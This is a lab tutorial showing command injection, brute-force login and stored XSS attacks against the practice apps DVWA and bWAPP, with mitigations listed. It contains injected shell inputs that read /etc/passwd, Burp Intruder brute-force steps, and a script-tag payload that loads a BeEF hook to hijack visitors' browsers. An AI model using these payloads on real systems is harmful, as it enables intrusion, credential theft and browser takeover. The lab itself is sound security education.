# Testing Web Vulnerabilities 

Web Applications are everywhere, and if they are not developed considering security best practices it could be devastating to a Company. They could expose client information or could be a way for attackers to gain credentials and gain further access into the Company's data. 

**Remember never to try this in applications where you don't have explicit permission to do so.**

Here, I will show how to check for vulnerabilities in a Web Application. Vulnerabilities covered are:
- Command Injection
- Password Brute Force attacks
- Stored XSS  

Tools:
- Firefox with *Foxy-Proxy* add-on installed.
- DVWA
- bWAPP
- Burp Suite
- BeEF

---  
## Command Injection

According to [OWASP's](https://owasp.org/www-community/attacks/Command_Injection) website:

> *Command Injection* is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application. *Command injection* attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Command injection attacks are possible largely due to insufficient input validation.  

 
The Damn Vulnerable Web App is an Open Source Project for a PHP/MySQL web application that is damn vulnerable, the code can be found at [digininja's Github](https://github.com/digininja/DVWA). As explained in its website the goals are to be an aid for security professionals or web developers to better understand the processes of securing and exploiting web applications. More importantly, this is a **legal** way to explore these kind of vulnerabilities.  
  

In my setup I'm running the DVWA in a Docker container inside an Ubutu VM.




1. Open the DVWA in your browser and select **Command Injection** from the left-hand side Menu. 

    


2. In this page the intended use is to allow the users to ping any IP address that they enter into the textbox. For example if a user writes `8.8.8.8` and then they click *Submit*, the application would ping that IP address (Note: `8.8.8.8` is Google's IP).

    

3. The next step is to try to manipulate the input:
    - Writing just a command like `pwd` (print working directory) does not seem to work.
    - Writing `8.8.8.8 && pwd` on the other hand, changes the results. This would mean that the application is vulnerable to *Command Injection*, and since `pwd` is a Linux command, this would mean that the application is running on Linux.
    
    - Since the application runs on Linux, we could try to get something tastier, like the contents of `/etc/passwd` and `/etc/hosts`. 
    - To get the contents of those files, we can use the dot-dot-slash method to move to other directories.  

         - Input:  `-c 1 10.0.0.1; pwd && cat ../../../../../etc/passwd`
         - Results: Contents of the file are shown in the screen.
            

         - Input:  `-c 1 10.0.0.1; pwd && cat ../../../../../etc/hosts`
         - Results: Contents of the file are shown in the screen.
          
4. Mitigations:
    - Validate user input client-side and server-side, so just one IP address can be submitted by the user and no other commands can be added.
    - Set permissions in the server, so the web user has no access to confidential files (principle of least privilege).

---
## Brute Force Attacks

[OWASP's](https://owasp.org/www-community/attacks/Brute_force_attack) website defines Brute Force attacks as:

> A *brute force attack* can manifest itself in many different ways, but primarily consists in an attacker configuring predetermined values, making requests to a server using those values, and then analyzing the response. For the sake of efficiency, an attacker may use a dictionary attack (with or without mutations) or a traditional *brute-force attack* (with given classes of characters e.g.: alphanumeric, special, case (in)sensitive). Considering a given method, number of tries, efficiency of the system which conducts the attack, and estimated efficiency of the system which is attacked the attacker is able to calculate approximately how long it will take to submit all chosen predetermined values.

I'll use [bWAPP](http://itsecgames.com/) along with [Burp Suite](https://portswigger.net/burp) to demonstrate Brute Force attacks.


[bWAPP](http://itsecgames.com/), or *buggy web application*, is an Open Source PHP/MySQL insecure web application. Security enthusiasts, web developers and students can discover and learn how to prevent web vulnerabilities with it. 

  

[Burp Suite](https://portswigger.net/burp) is used for penetration testing of web applications. It offers several tools, for this test we will use the **Intruder** tool, which is used to run a set of values through an input point. 

1. Login to bWAPP and select `Broken Authentication - Insecure Login Forms` from the drop-down list.
  
2. This will take us to a simple login page. 
  

3. In this scenario we have a list of passwords and a list of administrators for the website that a fictional attacker has in their power. Using **Burp Suite Intruder** from the **Burp Suite** app we will try to Brute Force our way in.


    


    - <details><summary> Click here to view the set up instructions.</summary>

        - Run Burp Suite: `sudo burpsuite` 
            - Select: Temporary Project > Use Burp defaults > Start Burp. Main dashboard will appear.
            - Go to Proxy > Intercept and confirm that Intercept is on.
            - Go to Proxy > Options and under Proxy Listeners, confirm that you have the interface `127.0.0.1:8080` set up, with the Running option checked, if not there, add it.

        - Open Firefox and click on the *Foxy Proxy* add-on. 
            - Add a proxy to send the traffic to Burp Suite that matches the configuration in Burp:
                - Proxy type: `HTTP`
                - Proxy IP address: `127.0.0.1`
                - Port: `8080`
            - Select the newly created proxy that you just configured. Now when you navigate anywhere, the HTTP requests will be sent to Burp.

    </details>

    
    - In Firefox, click on *Foxy Proxy* and enable the proxy option you created to send the web traffic to Burp.
    - In Burp Suite, go to Proxy > Intercept.
    - In the bWAPP Broken authentication page, test the intended use of the application by entering a test username and a test password that will fail.The goal is to identify how are those values added into the HTTP request.
    - In Burp Suite note the contents of the HTTP request (it will include the test username and test password).
    - Move the HTTP request to Burp Intruder.
        - Right-click on the Intercept page and select *Send to Intruder*.
        - Click the Intruder icon from the toolbar. This will take you to a page with the following tabs: Target, Positions, Payloads, Options.
        - Select the Positions tab. You should see the same HTTP POST request that you saw under Intercept. This is where you configure the payloads. You'll see that the HTTP request includes several `§` characters, these are used to indicate the sart and end of each payload that you might modify.
            - The *payloads* in this case are two: `username` and `password`.
            - Select the Cluster Bomb attack type.
            - Clear all the section sign characters (`§`).
            - Highlight the test username and click `Add §`. This will be Payload Set 1.
            - Highlight the test password and click `Add §`. This will be Payload Set 2.
        - Select the Payloads tab. 
            - Under *Payload set*, select 1.
            - Set *Payload type* as simple list. 
                - Click Add and enter each username that you wish to try.
            - Under *Payload set*, select 2.
            - Set *Payload type* as simple list.
                - Click Add and enter each password that you wish to try.
        - Launch the attack.
            - Select *Start Attack*.
            - Results will be displayed in a new page, showing all the payload combinations. HTTP response code and the length of the HTTP response will be displayed. An HTTP response code 200 does not mean that you successfully logged in to the application, just that there were no errors. 
                - To see the application response, highlight any of the payload combinations and change the view from Request to Response and change value to Render.
                - The length of the HTTP response could be a good indicator of what payloads to check.


    


Mitigations:

- Employee training where credential reuse is discouraged because of the risks that it implies.
- Using MFA, that way even if the users are reusing credentials and those credentials are compromised an attacker cannot log into the system with only the credentials.
- Block IPs that are attempting to log in multiple times in a noticeably short amount of time.  
---

## Stored XSS

[OWASP](https://owasp.org/www-community/attacks/xss/#stored-xss-attacks) defines Stored XSS Attacks as:

> Stored attacks are those where the injected script is permanently stored on the target servers, such as in a database, in a message forum, visitor log, comment field, etc. The victim then retrieves the malicious script from the server when it requests the stored information. Stored XSS is also sometimes referred to as Persistent or Type-I XSS.


I'll use DVWA and BeEF to use a Stored XSS attack to inject a BeEF hook to the DVWA.
- The BeEF Hook can be found at `http://127.0.0.1:3000/hook.js`
- The payload to inject with this BeEF hook is: 
```
<script src="http://127.0.0.1:3000/hook.js"></script>
```


[BeEF](https://beefproject.com/) is short for Browser Exploitation Framework, which is a penetration testing tool that focuses on exploiting vulnerabilities of web browsers. It uses `BeEF Hooks` (snippets of code) added to a target website, usually via cross-site scripting. When users access the infected website, their browsers become *hooked* and they are called *zombies*. A *zombie* then awaits instructions from the BeEF control panel, which has hundreds of exploits. 


1. Open the DVWA in your browser.
2. Select *XSS (Stored)* from the left-hand side menu.
3. When you try to enter the payload, you will notice that it does not fit the textbox. This is a client-side limitation but it can be easiy bypassed by righ-clicking and selecting "Inspecting the Element". Then just modify the `maxlength` value assigned to the textbox, so your payload can fit.
    


4. Add your payload and save the information.

    


5. Now, whomever visits this page will be hooked.

6. Check your BeEF Dashboad, and you will see that the browser has been hooked.

    

7. From the BeEF dashboard you can send commands to the hooked browsers. 


